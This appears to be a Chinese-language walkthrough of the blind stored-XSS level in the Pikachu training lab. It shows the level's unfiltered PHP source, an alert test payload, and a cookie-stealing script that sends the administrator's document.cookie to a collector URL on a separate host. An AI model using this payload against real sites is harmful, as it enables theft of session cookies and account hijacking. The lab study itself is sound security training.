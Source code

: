 # XSS之盲打

# 一、代码审计

该关卡的代码如下

```php+HTML
<?php
/**
 * Created by runner.han
 * There is nothing new under the sun
 */


$PIKA_ROOT_DIR =  "../../../";

include_once $PIKA_ROOT_DIR.'inc/config.inc.php';
include_once $PIKA_ROOT_DIR.'inc/mysql.inc.php';


$SELF_PAGE = substr($_SERVER['PHP_SELF'],strrpos($_SERVER['PHP_SELF'],'/')+1);
if ($SELF_PAGE = "xss_blind.php"){
    $ACTIVE = array('','','','','','','','active open','','','','','','active','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','','');

}

include_once $PIKA_ROOT_DIR.'header.php';


$link=connect();
$html='';
if(array_key_exists("content",$_POST) && $_POST['content']!=null){
    $content=escape($link, $_POST['content']);
    $name=escape($link, $_POST['name']);
    $time=$time=date('Y-m-d g:i:s');
    $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        $html.="<p>谢谢参与，阁下的看法我们已经收到!</p>";
    }else {
        $html.="<p>ooo.提交出现异常，请重新提交</p>";
    }
}




?>



<div class="main-content" xmlns="http://www.w3.org/1999/html">
    <div class="main-content-inner">
        <div class="breadcrumbs ace-save-state" id="breadcrumbs">
            <ul class="breadcrumb">
                <li>
                    <i class="ace-icon fa fa-home home-icon"></i>
                    <a href="../xss.php">xss</a>
                </li>
                <li class="active">xss盲打</li>

            </ul><!-- /.breadcrumb -->
            <a href="#" style="float:right" data-container="body" data-toggle="popover" data-placement="bottom" title="tips(再点一下关闭)"
               data-content="登录后台,看会发生啥?后台登录地址是/xssblind/admin_login.php">
                点一下提示~
            </a>

        </div>
        <div class="page-content">
            <div id="xss_blind">
                <p class="blindxss_tip">请在下面输入你对"锅盖头"这种发型的看法：</p>
                <p class="blindxss_tip">我们将会随机抽出一名送出麻港一日游</p>
                <form method="post">
                    <textarea class="content" name="content"></textarea><br />
                    <label>你的大名：</label><br />
                    <input class="name" type="text" name="name"/><br />
                    <input type="submit" name="submit" value="提交" />
                </form>
                <?php echo $html;?>
            </div>
        </div><!-- /.page-content -->
    </div>
</div><!-- /.main-content -->


<?php
include_once $PIKA_ROOT_DIR.'footer.php';


?>
```

可以看到该关卡对xss同样是没有过滤的

***

# 二、通关教程

在留言板插入如下payload

```
<script>alert('123')</script>
```

![image-20230304125401074](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\XSS（跨站脚本）\images\image-20230304125401074.png)

登录管理员后台成功出发xss

![image-20230304125459902](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\XSS（跨站脚本）\images\image-20230304125459902.png)

如果想获取管理员cookie，可以插入如下payload

```
<script>document.location='http://192.168.118.150/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

在留言板提交上面的payload后，打开xss后台，然后登录管理员后台，再返回xss后台刷新即可

![image-20230304130809696](C:\Users\linyunong\Desktop\Note\pikachu靶场通关教程\XSS（跨站脚本）\images\image-20230304130809696.png)





